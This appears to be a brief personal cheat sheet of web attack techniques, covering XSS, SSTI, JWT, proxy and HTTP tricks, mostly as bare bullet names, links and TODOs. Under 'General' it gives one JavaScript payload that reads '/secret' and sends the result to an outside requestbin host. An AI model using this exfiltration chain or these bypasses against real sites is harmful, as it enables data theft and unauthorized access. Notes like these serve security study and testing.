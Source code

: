## General
- Javascript chaining, e.g.: ```fetch("/secret").then(r=>r.text()).then(r=>fetch("requestbin.../?secret="+r))```
- 


## XSS
- Unicode equivalence
- [DOMPurify 2.0.17 bypass](https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/)

## XPATH
- TODO: blind, link cheatsheet


## SSTI
- TODO: Flesh out with bypasses

## Proxies
- gunicorn SCRIPT_NAME header bypasses blacklists
- [nginx misconfigurations](https://blog.detectify.com/2020/11/10/common-nginx-misconfigurations/)

## JWT
- Change algorithm
- Deduce public key from RSA signatures
- Offline crack HS256

## HTTP
- HTTP parameter pollution
- HTTP request splitting
- 